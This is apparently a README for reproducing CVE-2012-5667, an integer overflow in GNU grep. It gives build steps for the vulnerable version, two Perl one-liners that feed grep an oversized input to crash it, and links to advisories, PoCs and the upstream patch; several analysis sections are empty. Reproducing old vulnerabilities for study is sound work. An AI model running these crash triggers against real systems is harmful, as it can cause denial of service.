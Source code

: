 # CVE-2012-5667

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2012-5667/grep-2.11.tar.xz
tar -xvf grep-2.11.tar.xz
cd grep-2.11
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

### Method 1

```
perl -e 'print "x"x(2**31)' | ./grep x > /dev/null
```

### Method 2

```
perl -e 'print "\nx"x(2**31)' | ./grep -c x > /dev/null
```

## PoCs

[Grep < 2.11 - Integer Overflow Crash (PoC)](https://www.exploit-db.com/exploits/23779/)

[Bug 448246 (CVE-2012-5667) - <sys-apps/grep-2.12: Arbitrary command execution (CVE-2012-5667)](https://bugs.gentoo.org/448246)

[grep <2.11 is vulnerable to "Arbitrary command execution"](https://bugs.launchpad.net/ubuntu/+source/grep/+bug/1091473)

[grep CVE-2012-5667 Remote Integer Overflow Vulnerability](https://www.securityfocus.com/bid/57033/exploit)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

Details are in <http://git.savannah.gnu.org/cgit/grep.git/commit/?id=cbbc1a45b9f843c811905c97c90a5d31f8e6c189>

## References
